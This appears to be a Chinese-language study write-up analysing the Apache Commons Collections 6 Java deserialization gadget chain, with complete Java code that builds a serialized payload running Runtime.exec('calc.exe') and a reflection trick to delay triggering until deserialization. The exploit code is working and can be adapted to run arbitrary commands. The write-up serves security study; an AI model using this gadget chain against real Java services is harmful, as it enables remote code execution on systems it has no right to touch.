


# CommonsCollections6 analyze

# 0x00

```java
/*
	Gadget chain:
	    java.io.ObjectInputStream.readObject()
            java.util.HashSet.readObject()
                java.util.HashMap.put()
                java.util.HashMap.hash()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections.map.LazyMap.get()
                            org.apache.commons.collections.functors.ChainedTransformer.transform()
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()

    by @matthias_kaiser
*/
```

可以看到链尾的`sink`​点和我们之前分析的`cc1`​是一样的,所以我们直接从不一样的部分开始看起来,也就是`LazyMap.get()`​上层调用不一样,这里是由`TiedMapEntry.getValue()`​调用的

直接定位到这个类

```java
public TiedMapEntry(Map map, Object key) {
        super();
        this.map = map;
        this.key = key;
    }

public Object getValue() {
        return map.get(key);
    }
```

所以我们可以通过这两个方法,先构造简单的`exp`​

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC6Exp {
    public static void exp() throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "p");
        tiedMapEntry.getValue();
    }

    public static void main(String[] args) throws Exception {
        exp();
    }
}
```

这里的逻辑其实就是,我们上面说的`getValue()`​调用了`map.get()`​,而在`TiedMapEntry`​这个类的构造方法,我们可以看到,可以直接控制`map`​的值,所以就能够连接起来弹`calc`​

所以继续往上找有那个点调用了`getValue()`​

可以发现在`TiedMapEntry`​这个类中的`hashCode()`​方法直接调用了`getValue()`​

​​

因为继续搜索`hashCode()`​的上层利用,有很多个结果,一个一个找不显示,这里直接就参考`Drunkbaby`​师傅的文章(虽然我是直接跟着这个师傅的文章学的嘻嘻

我们就可以直接回头看`yso`​给出来的利用链

```java
java.io.ObjectInputStream.readObject()
            java.util.HashSet.readObject()
                java.util.HashMap.put()
                java.util.HashMap.hash()
```

直接从`put()`​方法往下走

```java
public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
    }
```

这里调用了`hash()`​方法,继续看到`hash()`​

```java
static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

调用了`key.hashCode()`​,所以`HashMap`​确实是个完美的入口类

以此可以得出我们的`Final Exp`​

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC6Exp {
    public static void exp() throws Exception {
//        Runtime runtime = Runtime.getRuntime();
//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
//        HashMap<Object, Object> hashMap = new HashMap<>();
//        Map decorateMap = LazyMap.decorate(hashMap, invokerTransformer);
//        Class<LazyMap> lazyMapClass = LazyMap.class;
//        Method lazyGetMethod = lazyMapClass.getDeclaredMethod("get", Object.class);
//        lazyGetMethod.setAccessible(true);
//        lazyGetMethod.invoke(decorateMap, runtime);
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "p");
//        tiedMapEntry.getValue();
        HashMap<Object, Object> expMap = new HashMap<>();
        expMap.put(tiedMapEntry, "p");
        serialize(expMap);
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
    public static void main(String[] args) throws Exception {
        exp();
    }
}

```

但是此时又有一个问题了,这里我们会发现,在反序列化之前,就会弹`calc`​了

这里我们直接贴`Drunkbaby`​师傅给出来的`exp`​

```java
		ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
        HashMap<Object,Object> map = new HashMap<Object,Object>();  
        Map<Object,Object> lazymap = LazyMap.decorate(map,new ConstantTransformer(1));  
  
        HashMap<Object,Object> map2 = new HashMap<>();  
  
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap,"aaa");  
  
        map2.put(tiedMapEntry,"bbb");  
        map.remove("aaa");  
  
        Class c = LazyMap.class;  
        Field fieldfactory = c.getDeclaredField("factory");  
        fieldfactory.setAccessible(true);  
        fieldfactory.set(lazymap,chainedTransformer);  
        serialize(map2);  
        unserialize("ser.bin");
```

我们直接来讲要点就好了,在构造的时候,第一次并没有直接传入`payload`​给到`lazymap`​所以不会直接弹`calc`​,但是后面通过反射的方法,修改了`factory`​的属性,导致序列化之后被反序列化才会触发我们的`payload`​不得不说,思路确实牛逼!

附上流程图

​​

‍
